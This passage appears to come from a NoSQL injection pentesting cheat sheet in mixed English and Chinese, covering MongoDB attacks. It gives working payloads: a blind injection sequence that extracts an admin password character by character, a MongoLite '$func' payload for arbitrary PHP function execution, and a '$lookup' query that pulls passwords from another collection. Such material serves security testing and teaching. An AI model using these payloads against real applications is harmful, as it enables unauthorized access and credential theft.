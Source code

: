 - **Secure Configuration**: Follow security best practices for configuring and securing the MongoDB server.

By implementing these measures, you can significantly reduce the risk of NoSQL injection attacks and protect your application and data.
```
/?search=admin' && this.password%00 --> Check if the field password exists
/?search=admin' && this.password && this.password.match(/.*/)%00 --> start matching password
/?search=admin' && this.password && this.password.match(/^a.*$/)%00
/?search=admin' && this.password && this.password.match(/^b.*$/)%00
/?search=admin' && this.password && this.password.match(/^c.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj78i3u$/)%00  Found
```
### PHP任意函数执行

使用[MongoLite](https://github.com/agentejo/cockpit/tree/0.11.1/lib/MongoLite)库的**$func**运算符（默认使用）可能会导致执行任意函数，就像[这个报告](https://swarm.ptsecurity.com/rce-cockpit-cms/)中所述。
```python
"user":{"$func": "var_dump"}
```
![](<../.gitbook/assets/image (468).png>)

### 从不同的集合中获取信息

可以使用[$lookup](https://www.mongodb.com/docs/manual/reference/operator/aggregation/lookup/)从不同的集合中获取信息。在下面的示例中，我们从名为`users`的**不同集合**中读取数据，并获取所有密码与通配符匹配的条目的结果。
```json
[
{
"$lookup":{
"from": "users",
"as":"resultado","pipeline": [
{
"$match":{
"password":{
"$regex":"^.*"
}
}
```